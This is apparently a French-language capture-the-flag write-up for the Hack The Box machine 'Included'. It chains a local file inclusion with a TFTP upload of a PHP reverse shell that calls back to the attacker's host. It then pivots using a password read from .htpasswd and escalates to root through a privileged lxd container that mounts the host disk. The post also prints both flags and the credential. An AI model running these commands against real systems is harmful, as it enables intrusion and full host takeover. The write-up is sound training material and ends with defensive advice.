









> Plateforme : **Hack The Box** — Starting Point (Tier 2)

## Informations

- **Catégorie :** Web (LFI) + TFTP → RCE → groupe `lxd`
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `80/tcp` (Apache httpd 2.4.29), `69/udp` (TFTP)
- **Flag user :** `a56ef91d70cfbf2cdb8f454c006935a1`
- **Flag root :** `c693d9c7499d9f572ee375d4c14c7bcf`

---

## 1. Reconnaissance

```bash
nmap -sC -sV -sU -p- -T4 10.129.95.185
```

```text
80/tcp open  http   Apache httpd 2.4.29 (Ubuntu)
|_Requested resource was http://10.129.95.185/?file=home.php
69/udp open  tftp   Netkit tftpd or atftpd
```

Deux éléments : un serveur **HTTP** et un serveur **TFTP** (UDP/69). La page d'accueil redirige vers `/?file=home.php` — un paramètre **`file`** qui inclut des pages.



---

## 2. LFI sur le paramètre `file`

Le paramètre `file` sent la **Local File Inclusion**. Test sur `/etc/passwd` :

```http
http://10.129.95.185/?file=../../../etc/passwd
```



```text
root:x:0:0:root:/root:/bin/bash
...
mike:x:1000:1000:mike:/home/mike:/bin/bash
```

LFI **confirmée**, et on découvre l'utilisateur **mike**.

---

## 3. LFI + TFTP → RCE

La LFI lit des fichiers ; pour exécuter du code, il faut **déposer** un `.php` sur la cible, puis l'**inclure**. C'est là que le **TFTP** entre en jeu : il permet d'uploader des fichiers, stockés par défaut dans **`/var/lib/tftpboot/`**.

Test de la chaîne upload → inclusion :

```bash
echo 'Test d upload et d acces' > test.txt
tftp 10.129.95.185
tftp> put test.txt
```

```http
http://10.129.95.185/?file=../../../var/lib/tftpboot/test.txt
```



Le fichier uploadé est bien lu via la LFI → on peut maintenant déposer un **reverse shell PHP** (pentestmonkey, `LHOST`/`LPORT` modifiés) :

```bash
nc -lnvp 4444          # listener
tftp 10.129.95.185
tftp> put php-reverse-shell.php
```



Déclenchement via la LFI :

```http
http://10.129.95.185/?file=../../../var/lib/tftpboot/php-reverse-shell.php
```

```text
connect to [10.10.15.244] from 10.129.95.185
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Shell obtenu en **www-data**.

---

## 4. .htpasswd → pivot vers mike

Dans la racine web, un fichier `.htpasswd` :

```bash
ls -la /var/www/html
cat /var/www/html/.htpasswd
```

```text
mike:Sheffield19
```



On stabilise le shell puis on bascule sur le compte `mike` (mot de passe réutilisé) :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'   # Ctrl+Z puis : stty raw -echo; fg
su mike      # Sheffield19
```



### Flag user

```bash
cat /home/mike/user.txt
```

```text
a56ef91d70cfbf2cdb8f454c006935a1
```

---

## 5. Privesc — groupe `lxd`

`id` révèle que `mike` appartient au groupe **`lxd`** :

```bash
find / -group lxd 2>/dev/null
# /var/lib/lxd/unix.socket
```



Ce socket est le canal de contrôle du démon **LXD** (qui tourne en **root**). Appartenir au groupe `lxd` = pouvoir piloter un service root → on crée un **conteneur privilégié** qui **monte la racine de l'hôte**.

### Image Alpine (sur Kali)

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder && sudo ./build-alpine
python3 -m http.server 80
```

### Sur la cible

```bash
cd /tmp
wget http://10.10.15.244/alpine-v3.13-x86_64-20210218_0139.tar.gz -O alpine.tar.gz
export PATH=$PATH:/snap/bin
lxd init                      # défauts (noms uniques si "déjà existant")

lxc image import ./alpine.tar.gz --alias privesc
lxc init privesc pwn -c security.privileged=true
lxc config device add pwn hostroot disk source=/ path=/mnt/root recursive=true
lxc start pwn
lxc exec pwn /bin/sh
```

### Flag root

Dans le conteneur, root réel et disque de l'hôte monté sous `/mnt/root` :

```sh
~ # id
uid=0(root) gid=0(root)
~ # cat /mnt/root/root/root.txt
c693d9c7499d9f572ee375d4c14c7bcf
```



**Flag root :** `c693d9c7499d9f572ee375d4c14c7bcf`

---

## Récapitulatif de la chaîne

1. **nmap** → HTTP (`?file=` → LFI) + TFTP (69/udp).
2. **LFI** confirmée (`/etc/passwd`) → utilisateur `mike`.
3. **TFTP** pour déposer un reverse shell PHP, **LFI** pour l'inclure → RCE en `www-data`.
4. **`.htpasswd`** → `mike:Sheffield19` → `su mike` → flag user.
5. Groupe **`lxd`** → conteneur **privilégié** montant `/` de l'hôte → **root** → flag root.

> **Concept clé :** Included combine une inclusion de fichier et une mauvaise affectation de groupe. (1) La **LFI** seule ne fait que lire des fichiers ; c'est en la **couplant au TFTP** (upload sans authentification vers un chemin connu, `/var/lib/tftpboot/`) qu'on obtient une **RCE** — déposer le code, puis l'inclure. (2) La privesc n'exploite aucune faille logicielle : appartenir au groupe **`lxd`** est, par conception, **équivalent à root**. Le groupe donne accès au socket du démon LXD (root) ; on lui fait créer un conteneur **privilégié** (`security.privileged=true`, qui désactive le remapping d'UID → root-conteneur = root-hôte) et on y **monte la racine de l'hôte** (`source=/`). L'isolation du conteneur s'effondre : `/mnt/root` est le vrai disque, modifiable en root. Défenses : désactiver `allow_url_include`/valider les chemins d'inclusion, restreindre le TFTP, et ne jamais placer un utilisateur non-admin dans les groupes `lxd`/`docker` (ils valent root).

---

***— 3ch0***
